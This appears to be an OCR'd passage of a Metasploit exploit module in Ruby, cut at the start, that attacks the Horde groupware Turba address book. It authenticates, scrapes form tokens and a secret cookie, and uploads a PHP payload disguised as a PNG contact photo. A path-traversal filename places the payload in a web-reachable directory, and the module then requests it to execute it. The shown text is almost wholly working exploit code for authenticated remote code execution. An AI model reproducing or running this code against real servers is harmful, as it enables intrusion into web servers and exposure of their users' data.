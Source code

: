 ```ruby
      end
    end
    nil
  end
  def exploit
    vprint_status("Authenticating using #{username}:#{password}")
    cookie = horde_login(username, password)
    fail_with(Failure::NoAccess, 'Unable to login. Verify USERNAME/PASSWORD or TARGETURI.') if cookie.nil?
    vprint_good("Authenticated to Horde.")
    tokens = get_tokens(cookie)
    fail_with(Failure::Unknown, 'Error extracting tokens.') if tokens.nil?
    source_token, form_token, secret_cookie = tokens
    vprint_good("Tokens \"#{source_token}\", \"#{form_token}\", and cookie \"#{secret_cookie}\" found.")
    targets[1..-1].each do |curr_target|
    if target.name =~ /Automatic/ or curr_target == target
      payload_name = Rex::Text.rand_text_alpha_lower(10)
      payload_path = File.join(curr_target[:path], "static", "#{payload_name}.php")
      payload_path_traversal = File.join("..", payload_path)
      vprint_status("Preparing payload for target #{curr_target.name}...")
      data = Rex::MIME::Message.new
      data.add_part(payload.encoded, 'image/png', nil, "form-data; name=\"object[photo][new]\"; filename=\"#{payload_name}.png\"")
      data.add_part("turba_form_addcontact", nil, nil, 'form-data; name="formname"')
      data.add_part(form_token, nil, nil, 'form-data; name="turba_form_addcontact_formToken"')
      data.add_part(source_token, nil, nil, 'form-data; name="source"')
      data.add_part(payload_path_traversal, nil, nil, 'form-data; name="object[photo][img][file]"')
      post_data = data.to_s
      vprint_status("Uploading payload to #{payload_path_traversal}")
      res = send_request_cgi(
        'method'    => 'POST',
        'uri'       => normalize_uri(target_uri, 'turba', 'add.php'),
        'ctype'     => "multipart/form-data; boundary=#{data.bound}",
        'data'      => post_data,
        'cookie'    => cookie + ' ' + secret_cookie
      )
      fail_with(Failure::Unknown, "Unable to upload payload to #{payload_path_traversal}.") unless res && res.code == 200
      payload_url = normalize_uri(target_uri, 'static', "#{payload_name}.php")
      vprint_status("Executing the payload at #{payload_url}.")
      res = send_request_cgi(
        'uri'     => payload_url,
        'method'  => 'GET'
      )
      if res and res.code != 200
        vprint_bad("URL #{payload_url} hasn't been created or is not callable")
      else
        register_files_for_cleanup(payload_path)
        break
      end
    end
   end
  end
end
```
